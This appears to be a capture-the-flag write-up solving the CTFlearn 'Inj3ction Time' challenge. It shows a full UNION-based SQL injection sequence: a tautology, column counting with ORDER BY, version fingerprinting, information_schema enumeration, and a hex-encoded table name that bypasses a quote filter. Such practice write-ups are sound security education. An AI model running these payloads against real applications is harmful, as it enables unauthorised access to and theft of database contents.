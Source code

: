# [Inj3ction Time](https://ctflearn.com/challenge/149)

```sql
1 OR 1=1
```

lists all the entries of the dogs table, not really helpful

To determine number of columns in the result set:

```sql
1 ORDER BY 1
1 ORDER BY 2
1 ORDER BY 3
1 ORDER BY 4
1 ORDER BY 5
```

At 5, it gives no results; so there are **4 columns**

Querying for version:

```sql
1 UNION SELECT NULL, @@version, NULL, NULL
```

The result is `5.5.58-0ubuntu0.14.04.1`, which is a MySQL version

Querying for table names:

```sql
1 UNION SELECT NULL, table_name, NULL, NULL FROM information_schema.tables
```

A promising table name: `w0w_y0u_f0und_m3`

Quering for its columns:

```sql
1 UNION SELECT NULL, column_name, NULL, NULL FROM information_schema.columns WHERE table_name='w0w_y0u_f0und_m3'
```

But this gives no results, maybe because quotes are disallowed. So, using hex:

```sql
1 UNION SELECT NULL, column_name, NULL, NULL FROM information_schema.columns WHERE table_name=0x7730775F7930755F6630756E645F6D33
```

A promising column name: `f0und_m3`

Querying for the rows:

```sql
1 UNION SELECT NULL, f0und_m3, NULL, NULL FROM w0w_y0u_f0und_m3
```

Voila!

